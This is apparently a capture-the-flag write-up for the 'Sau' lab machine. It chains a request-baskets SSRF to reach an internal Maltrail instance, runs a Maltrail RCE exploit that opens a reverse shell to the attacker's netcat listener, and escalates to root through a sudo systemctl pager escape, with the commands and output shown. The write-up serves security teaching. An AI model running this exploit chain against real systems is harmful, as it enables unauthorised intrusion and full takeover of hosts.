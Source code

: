 # Sau

## Information Gathering

## Enumeration

Running an nmap scan
```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 07 Oct 2023 18:57:44 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 07 Oct 2023 18:57:18 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 07 Oct 2023 18:57:18 GMT
|_    Content-Length: 0
```


### 55555/tcp

Software:
- request-baskets v1.2.1
    - [Request-Baskets v1.2.1 SSRF](https://www.exploit-db.com/exploits/51675)
- Maltrail v0.53
    - [Maltrail v0.53 RCE](https://www.exploit-db.com/exploits/51676)

## Foothold

Navigating to `http://10.10.11.224:55555/web` reveals an application `request-baskets`. There is a [publicly disclosed vulnerability / exploit](https://www.exploit-db.com/exploits/51675) in this version of `request-baskets`. 

This exploit will allow us to create a proxy on the target host. The host will then forward the request to the host we specified. Where to forward the request to? There are two ports (80 and 8338) which we are unable to connect to. My guess is there is host filtering preventing us from connecting to these ports and only `localhost` will be able to connect. Create a proxy on the target host and forward a request to `http://127.0.0.1:8338`:

```bash
$ ./request_basket_ssrf.sh "http://10.10.11.224:55555" "http://127.0.0.1:8338"
> Creating the "dxinaj" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/dxinaj now makes the server request to http://127.0.0.1:8338.
> Authorization: O2yUA8ueNh7hHsDPJrj2RfSJzpsfvxvquQE6w3StdPXg

$ curl -s "http://10.10.11.224:55555/dxinaj" | html2text
[images/mlogo.png]altrail
                             [images/calendar.png]
    * Documentation
    * |
    * Wiki
    * |
    * Issues
    * |
    * Log In

    * *** - ***
      * Threats *
    * *** - ***
      * Events *
    * *** - ***
      * Severity *
    * *** - ***
      * Sources *
    * *** - ***
      * Trails *
 [images/close.png]
Javascript is disabled in your browser. You must have Javascript enabled to
utilize the functionality of this page.
Powered by Maltrail (v0.53)
    * Hide threat
    * Report false positive
```

We were able to send a request to an internal application. The internal app running on 8338 is `Maltrail v0.53`. There is also a [publicly disclosed vulnerability / exploit](https://www.exploit-db.com/exploits/51676) for this vulnerability as well. We can send the payload to the proxy, which'll in-turn forward the payload to the vulnerable application:

```bash
$ ./maltrail_rce.py 10.10.14.25 9001 http://10.10.11.224:55555/dxinaj
Running exploit on http://10.10.11.224:55555/dxinaj/login
```

Running the above while also running a netcat listener catches the reverse shell as `puma`.

```bash
$ nc -lnvp 9001                  
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.224] 57770
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

## Privilege Escalation

Running `sudo -l` allows us to see what commands we can run root as:

```bash
$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

According to [gtfobins/systemctl](https://gtfobins.github.io/gtfobins/systemctl/#sudo) when running `systemctl`, we get dropped into a default pager (likely to be `less`). Inputting `!sh` gets the root shell.

```bash
$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
...<snip>...
Oct 07 15:25:38 sau systemd[1]: Started Maltrail. Server of malicious traffic detection system.
Oct 07 23:30:47 sau crontab[5051]: (puma) LIST (puma)
Oct 07 23:30:51 sau sudo[7401]:     puma : TTY=pts/2 ; PWD=/tmp ; USER=root ; COMMAND=list
Oct 07 23:30:51 sau nologin[7450]: Attempted login by UNKNOWN (UID: 1001) on UNKNOWN
Oct 07 23:34:34 sau sudo[15060]: pam_unix(sudo:auth): authentication failure; logname= uid=1001 euid=0 tty=/dev/pts/2 ruser=puma rhost=  user=puma
Oct 07 23:34:46 sau sudo[15062]:     puma : TTY=pts/2 ; PWD=/tmp ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Oct 07 23:34:46 sau sudo[15062]: pam_unix(sudo:session): session opened for user root by (uid=0)
Oct 08 01:50:06 sau sudo[15161]:     puma : TTY=pts/4 ; PWD=/opt/maltrail ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Oct 08 01:50:06 sau sudo[15161]: pam_unix(sudo:session): session opened for user root by (uid=0)
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```